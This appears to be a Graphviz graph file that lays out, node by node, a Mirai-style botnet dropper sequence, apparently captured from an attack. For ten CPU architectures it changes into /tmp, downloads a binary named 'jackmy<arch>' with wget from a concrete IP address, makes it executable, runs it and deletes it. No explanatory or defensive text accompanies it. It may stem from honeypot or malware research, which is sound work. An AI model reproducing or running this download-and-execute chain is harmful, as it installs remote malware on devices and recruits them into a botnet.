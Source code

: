 digraph {
90 [label="cd /tmp "];
90 -> 90
2 [label="wget http://62.4.1.192/jackmymips "];
2 -> 4 [label=";,"];
4 [label="chmod +x jackmymips "];
4 -> 6 [label=";,"];
6 [label="./jackmymips "];
6 -> 8 [label=";,"];
8 [label="rm -rf jackmymips "];
8 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
12 [label="wget http://62.4.1.192/jackmymipsel "];
12 -> 14 [label=";,"];
14 [label="chmod +x jackmymipsel "];
14 -> 16 [label=";,"];
16 [label="./jackmymipsel "];
16 -> 18 [label=";,"];
18 [label="rm -rf jackmymipsel "];
18 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
22 [label="wget http://62.4.1.192/jackmysh4 "];
22 -> 24 [label=";,"];
24 [label="chmod +x jackmysh4 "];
24 -> 26 [label=";,"];
26 [label="./jackmysh4 "];
26 -> 28 [label=";,"];
28 [label="rm -rf jackmysh4 "];
28 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
32 [label="wget http://62.4.1.192/jackmyx86 "];
32 -> 34 [label=";,"];
34 [label="chmod +x jackmyx86 "];
34 -> 36 [label=";,"];
36 [label="./jackmyx86 "];
36 -> 38 [label=";,"];
38 [label="rm -rf jackmyx86 "];
38 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
42 [label="wget http://62.4.1.192/jackmyi686 "];
42 -> 44 [label=";,"];
44 [label="chmod +x jackmyi686 "];
44 -> 46 [label=";,"];
46 [label="./jackmyi686 "];
46 -> 48 [label=";,"];
48 [label="rm -rf jackmyi686 "];
48 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
52 [label="wget http://62.4.1.192/jackmypowerpc "];
52 -> 54 [label=";,"];
54 [label="chmod +x jackmypowerpc "];
54 -> 56 [label=";,"];
56 [label="./jackmypowerpc "];
56 -> 58 [label=";,"];
58 [label="rm -rf jackmypowerpc "];
58 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
62 [label="wget http://62.4.1.192/jackmyi586 "];
62 -> 64 [label=";,"];
64 [label="chmod +x jackmyi586 "];
64 -> 66 [label=";,"];
66 [label="./jackmyi586 "];
66 -> 68 [label=";,"];
68 [label="rm -rf jackmyi586 "];
68 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
72 [label="wget http://62.4.1.192/jackmym86k "];
72 -> 74 [label=";,"];
74 [label="chmod +x jackmym86k "];
74 -> 76 [label=";,"];
76 [label="./jackmym86k "];
76 -> 78 [label=";,"];
78 [label="rm -rf jackmym86k "];
78 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
82 [label="wget http://62.4.1.192/jackmyarmv4 "];
82 -> 84 [label=";,"];
84 [label="chmod +x jackmyarmv4 "];
84 -> 86 [label=";,"];
86 [label="./jackmyarmv4 "];
86 -> 88 [label=";,"];
88 [label="rm -rf jackmyarmv4 "];
88 -> 90 [label=";,"];
90 [label="cd /tmp "];
90 -> 90
92 [label="wget http://62.4.1.192/jackmyarmv5 "];
92 -> 94 [label=";,"];
94 [label="chmod +x jackmyarmv5 "];
94 -> 96 [label=";,"];
96 [label="./jackmyarmv5 "];
96 -> 97 [label=";,"];
}
